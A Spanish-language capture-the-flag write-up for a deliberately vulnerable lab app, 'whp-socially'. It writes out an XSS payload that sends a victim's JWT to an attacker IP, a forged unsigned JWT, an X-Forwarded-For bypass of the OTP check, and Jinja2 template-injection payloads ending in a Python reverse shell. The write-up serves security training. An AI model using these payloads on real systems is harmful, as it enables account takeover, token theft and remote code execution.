 # Soluciones

## Etapa 1: Acceder con cualquier usuario

<details>
<summary>Mostrar</summary>

En esta etapa, el objetivo es acceder a la aplicación con un usuario cualquiera.

Para empezar, accedemos a http://whp-socially/ y nos encontramos con la siguiente pantalla:

![](img/MainPage.png)

Vemos que en el menú lateral izquierdo tenemos la opción de "Login", pero no es importante dado que no tenemos ninguna cuenta y no podemos registrarnos.

Si revisamos las publicaciones de la página, vemos que hay una publicación de un usuario llamado "admin" con un enlace que nos lleva a la página de Google.

![](img/InterestingHyperlink.png)

Este enlace es relevante, porque no redirecciona directamente a Google, sino que usa un parámetro llamado "next" para redireccionar a la página que nosotros queramos.

Esto recuerda a una vulnerabilidad llamada "Open Redirect", que consiste en que un atacante puede redireccionar a un usuario a una página que no es la que el usuario espera, por ejemplo, a una página de phishing.

Para validar si esto es una vulnerabilidad, podemos manipular el parámetro "next", quedando el enlace de la siguiente manera:

http://whp-socially/?next=http://example.com

![](img/example.com.png)

Y al acceder a este enlace, nos redirecciona a la página example.com, lo que confirma la vulnerabilidad.

Open Redirect es una vulnerabilidad muy común, normalmente no es muy peligrosa y en muchos casos se reporta con criticidad baja o incluso informativa. Sin embargo, hay casos en las que se puede explotar para realizar ataques más complejos, como por ejemplo, un Cross-Site Scripting (XSS). Un XSS permite que un atacante ejecute código JavaScript en el navegador del usuario. Vamos a verificar si esto es posible.

Para esto, tenemos que identificar cómo realiza la aplicación la redirección. Podemos usar Burp Suite para interceptar la petición y ver qué está pasando.

![](img/RequestOpenRedirect.png)

La aplicación redirecciona utilizando código JavaScript, más específicamente, con la propiedad "href" del objeto "window.location".

Cuando se redirecciona mediante JavaScript, y no mediante una cabecera HTTP "Location", se puede escalar el Open Redirect a un XSS. Esto resulta muy útil para Bug Bounty, porque los XSS se reportan con mayor criticidad que los Open Redirect, brindando una mayor recompensa.

Intentemos explotar esto. Primero, probemos si "javascript:" nos funciona, para ver si podemos ejecutar código JavaScript.

![](img/javascriptBlocked.png)

Al parecer, "javascript:" está bloqueado. No obstante, mediante el uso del carácter %09 (tabulador codificado en URL), podemos evadir los filtros.

Para esto, agregamos dicho carácter entre la primera y la última letra de la palabra "javascript", quedando de la siguiente manera:

![](img/BypassFilter.png)

Este carácter genera un espacio en blanco, que es ignorado por el navegador. Esta simple técnica, pero no tan conocida, me sirvió para evadir el WAF comercial de Imperva en un escenario de Bug Bounty.

Ahora, podemos ejecutar código JavaScript. Vamos a intentar llamar a la función "alert()" para ver si funciona.

![](img/alertBlocked.png)

Al parecer, la función "alert()" también está bloqueada. Sin embargo, podemos utilizar la función "print()", que genera una ventana de impresión.

![](img/printAllowed.png)

¡Perfecto, funciona! Accedamos desde el navegador para confirmar que se ejecuta el código JavaScript. El enlace debe quedar de la siguiente manera:

http://whp-socially/?next=j%09avascript:print()

![](img/printExecuted.png)

El código JavaScript se ejecuta correctamente. No obstante, no es muy útil, ya que solo genera una ventana de impresión. Vamos a intentar algo más interesante, como por ejemplo, robar la sesión del usuario.

Pero antes, necesitamos identificar cómo almacena la sesión / autenticación la aplicación. Normalmente, se almacena en una cookie, pero no siempre es así. Para determinar esto, revisamos los archivos JavaScript que se están ejecutando en la página principal. En este caso, tenemos un archivo llamado "main.js".

![](img/localStoragetoken.png)

En este archivo, podemos ver que se llama a la función "localStorage.getItem('token')", que es la que se encarga de obtener el token del usuario desde el almacenamiento local del navegador.

En caso de que haya dudas, la diferencia principal entre las cookies y el almacenamiento local es que las cookies se almacenan en el navegador y el servidor, mientras que el almacenamiento local solo se almacena en el navegador.

Vamos a intentar robar el token del usuario. Necesitamos un servidor de atacante para recibir el token de la víctima. Para esto, podemos usar un servidor HTTP de Python, con el siguiente comando:

    python3 -m http.server 80

![](img/pythonhttpserver.png)

Ahora, vamos a ver cuál es la dirección IP de nuestra máquina de atacante. Para esto, podemos usar el comando "ifconfig". La dirección IP que nos interesa es la de la interfaz puente de Docker, con el nombre que empieza con "br-".

![](img/ifconfig.png)

Con esta información, podemos crear un payload que utilice la función "fetch()" para enviar el token al servidor de atacante mediante una petición GET. El enlace quedaría de la siguiente manera:

```
http://whp-socially/?next=j%09avascript:fetch(%27http://<IP_ATACANTE>/%27%2blocalStorage.getItem(%27token%27))
```

**Importante:** Hay que reemplazar \<IP_ATACANTE\> por la dirección IP de la máquina de atacante. Además, hay que codificar el carácter "+" en URL, para que no se interprete como un espacio en blanco.

Si probamos el enlace, veremos que la petición no llega al servidor de atacante. Revisemos la consola del navegador para ver qué está pasando.

![](img/blockedFetch.png)

Al parecer, hay un error de sintaxis relacionado con el carácter "&". Para depurar esto, podemos enviar la petición al Repeater de Burp Suite y ver dónde está el problema.

![](img/blockedFetchRepeater.png)

El problema está en que el carácter "%27" (comilla simple codificada en URL) está siendo codificado mediante HTML Entities. Esto se debe a que la aplicación está haciendo un escape de los caracteres especiales.

Para solucionar esto, podemos ver si el resto de comillas están siendo escapadas también. Con JavaScript, podemos representar strings mediante comillas simples, dobles o backticks.

![](img/checkingQuoteChars.png)

En este caso, los backticks no están siendo escapados. Por lo tanto, podemos utilizarlos para solucionar el problema. El enlace quedaría de la siguiente manera:

```
http://whp-socially/?next=j%09avascript:fetch(`http://<IP_ATACANTE>/`%2blocalStorage.getItem(`token`))
```

Si probamos el enlace, vemos que la petición llega al servidor de atacante.

![](img/requestReceived.png)

Nos llega el valor "null", esto se debe a que no estamos autenticados, pero esto nos sirve para comprobar que la petición llega correctamente. Ahora, vamos a enviar la petición a la víctima, utilizando el servidor de explotación disponible en http://whp-exploitserver/.

![](img/exploitServer.png)

Pulsamos el botón "Deliver URL to victim" para enviar el enlace a la víctima. El servidor de explotación simula la navegación de la víctima y vemos que un JSON Web Token (JWT) llega correctamente al servidor del atacante.

![](img/tokenReceived.png)

Ahora, podemos utilizar el JWT para autenticarnos en la aplicación de http://whp-socially/. Abrimos la consola del navegador y ejecutamos el siguiente código JavaScript:

    localStorage.setItem('token', 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzb2NpYWxseS1hcHAiLCJpZCI6NX0.<FIRMA>')

**Importante:** Para que la consola nos deje pegar el código anterior, hay que escribir "allow pasting" justo antes de ejecutar el código. Además, hay que reemplazar \<FIRMA\> por la firma del JWT que hemos obtenido.

![](img/localStoragesetItem.png)

Si recargamos la página, comprobamos que nos hemos autenticado correctamente con la cuenta de "ares".

![](img/loggedinasares.png)

</details>

## Etapa 2: Acceder como admin

<details>
<summary>Mostrar</summary>

En esta etapa, el objetivo es acceder como administrador.

Tras iniciar sesión, podemos ver que tenemos una funcionalidad para publicar posts, pero se encuentra deshabilitada.

![](img/disabledposting.png)

Por lo tanto, vamos a revisar el JWT en busca de vulnerabilidades.

JWT se compone de tres partes: header, payload y firma. El header contiene información sobre el algoritmo de cifrado utilizado. El payload contiene la información que queremos guardar en el JWT. La firma se utiliza para verificar que el JWT no ha sido modificado, y se calcula mediante el header, el payload y una clave secreta.

Gracias a la página [JWT.io](https://jwt.io/), podemos ver el contenido del JWT más fácilmente. Introducimos el JWT obtenido anteriormente y obtenemos la siguiente información:

![](img/jwtdecoded.png)

Tenemos un campo "id" con el valor "5", que seguramente corresponda al identificador del usuario. Para modificarlo, necesitamos conocer la clave secreta que se utiliza para firmar el JWT, a menos que podamos encontrar una vulnerabilidad.

Si revisamos el HTTP History de Burp Suite al añadir un JWT en el Local Storage del navegador y refrescamos la página, se realiza una petición contra el endpoint "/session", que dado un JWT válido devuelve una cookie de sesión.

![](img/jwtreturnssession.png)

Vamos a probar a eliminar la firma del JWT y ver qué ocurre. Si se elimina la firma y la aplicación no la comprueba, el JWT se considera válido. Si esto ocurre, la aplicación debe devolver una cookie de sesión.

![](img/signatureremoved.png)

Esta vulnerabilidad permite manipular el payload del JWT, por lo que podemos modificar el valor de la clave "id" para que sea "1" y acceder como el primer usuario de la aplicación, que normalmente es el administrador.

![](img/modifiedidjwt.png)

Cerramos sesión y especificamos el JWT modificado desde la consola del navegador de la siguiente manera:

    localStorage.setItem('token', 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzb2NpYWxseS1hcHAiLCJpZCI6MX0.')

![](img/setadminjwt.png)

Si recargamos la página, comprobamos que hemos accedido como administrador.

![](img/loginasadmin.png)

</details>

## Etapa 3: Leer el archivo /flag

<details>
<summary>Mostrar</summary>

En esta etapa, el objetivo es leer el archivo /flag, que contiene la flag final.

El panel de administración tiene la siguiente apariencia:

![](img/adminpanel.png)

Tenemos dos opciones: actualizar los datos del servidor SMTP y enviar un correo electrónico de prueba. El problema es que si intentamos usar cualquiera de las dos opciones, salta un segundo factor de autenticación, que nos pide un código OTP.

Ejemplo al intentar actualizar los datos del servidor SMTP:

![](img/verifyotp.png)

Existen casos en los que las aplicaciones confían en la cabecera "X-Forwarded-For". Esta cabecera fue creada para que los servidores web puedan saber la IP real de los usuarios que acceden a la aplicación a través de un proxy. En este caso, la aplicación confía en esta cabecera y no comprueba la IP real del usuario.

Si agregamos la cabecera "X-Forwarded-For" para que su valor sea la dirección IPv4 de loopback (127.0.0.1), la aplicación cree que el usuario está accediendo desde la misma máquina que el servidor, por lo que no se activa el segundo factor de autenticación.

La petición que se realiza al intentar actualizar los datos del servidor SMTP es la siguiente:

![](img/updatesmtporiginalrequest.png)

Al agregar la cabecera "X-Forwarded-For: 127.0.0.1", el servidor no comprueba el segundo factor de autenticación y autoriza la petición.

![](img/updatesmtpmodifiedrequest.png)

Podemos agregar una regla de "Match and Replace" en Burp Suite para que se agregue la cabecera "X-Forwarded-For" automáticamente en todas las peticiones, con la siguiente configuración:

* **Type:** Request header
* **Replace:** X-Forwarded-For: 127.0.0.1

![](img/addmatchreplacerule.png)

Vamos a modificar la dirección IP del servidor SMTP para que sea la del atacante.

![](img/smtpipmodified.png)

Con Python podemos crear un servidor SMTP que escuche en el puerto 25 y nos muestre los correos electrónicos que reciba. Para ello, ejecutamos el siguiente comando:

    sudo python3 -m smtpd -n -c DebuggingServer 0.0.0.0:25

![](img/pythonsmtpserver.png)

Ahora, si enviamos un correo electrónico de prueba a cualquier dirección, lo recibimos en el servidor SMTP.

![](img/receiveemail.png)

La petición que se realiza al enviar un correo electrónico de prueba es la siguiente:

![](img/sendemailrequest.png)

La clave "message" llama la atención porque su valor contiene la variable {{session['username']}}, que es sustituido por el nombre del usuario que envía el correo electrónico. Esto recuerda a una vulnerabilidad de Server-Side Template Injection (SSTI), que permite ejecutar código en el servidor, en este caso, código Python.

Para confirmar que se trata de una vulnerabilidad de SSTI, lo primero es identificar el motor de plantillas que utiliza la aplicación, dado que cada uno tiene su propia sintaxis. 

El motor de plantillas más utilizado en Flask es Jinja2. Para comprobar si la aplicación está utilizando este motor de plantillas, podemos probar a enviar un correo electrónico de prueba con el siguiente contenido:

    {{config}}

![](img/config.png)

Y comprobar si la respuesta contiene información sobre la configuración de la aplicación. 

![](img/configreceived.png)

Funciona, por lo que podemos probar a extraer el contenido del archivo /flag, mediante el siguiente payload extraído de [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#exploit-the-ssti-by-calling-ospopenread):

    {{cycler.__init__.__globals__.os.popen('cat /flag').read()}}

![](img/messagetoolong1.png)

Desgraciadamente, el valor de la clave "message" es demasiado largo, por lo que el payload no es ejecutado.

Necesitamos un payload más corto, pero primero necesitamos conocer cuánto espacio tenemos disponible para el payload. Vamos a ir agregando caracteres "X" en "message" hasta que la petición devuelva un error.

Al enviar 45 caracteres "X", la petición funciona correctamente.

![](img/45x.png)

Al enviar 46 caracteres "X", la petición devuelve un error.

![](img/46x.png)

Podemos concluir que tenemos 50 caracteres disponibles para el payload.

El artículo [Exploiting Jinja SSTI with limited payload size](https://niebardzo.github.io/2020-11-23-exploiting-jinja-ssti/) ofrece una solución para saltar la restricción de tamaño de payload.

La técnica propuesta consiste es actualizar "config", que es un diccionario que contiene la configuración de la aplicación. Añadimos un elemento al diccionario llamado "a" con el comando que le pasemos por el parámetro GET "a" (valga la redundancia). 

De esta forma, no necesitamos incluir el comando en el campo "message", sino que lo pasamos por el parámetro GET, evadiendo así la restricción de tamaño.

En este caso, el comando es una reverse shell de Python 3.

    python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP_ATACANTE>",<PUERTO_ATACANTE>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

**Importante:** Modificar "IP_ATACANTE" y "PUERTO_ATACANTE" por la dirección IP y el puerto del atacante respectivamente. Seleccionamos el texto y presionamos "Ctrl+U" para que se codifique en formato URL.

Y el payload que vamos a utilizar es el siguiente:

    {{config.update(a=request.args.get('a'))}}

![](img/payload.png)

Nos ponemos a la escucha en el puerto especificado en el payload.

    nc -lvnp <PUERTO_ATACANTE>

![](img/nc.png)

Lanzamos os.popen(config.a) para que se ejecute el comando de la reverse shell, con el siguiente payload:

    {{lipsum.__globals__.os.popen(config.a)}}

Explicación del payload:
* **lipsum:** función que genera texto aleatorio, desde aquí podemos acceder a las variables globales.
* **\_\_globals\_\_:** diccionario que contiene las variables globales de las funciones, incluyendo "os".
* **os:** módulo que contiene funciones para interactuar con el sistema operativo.
* **popen:** función que ejecuta un comando en el sistema operativo.

![](img/revshell.png)

Y obtenemos una reverse shell.

![](img/shell.png)

Leemos el contenido del archivo /flag.

![](img/flag.png)

</details>
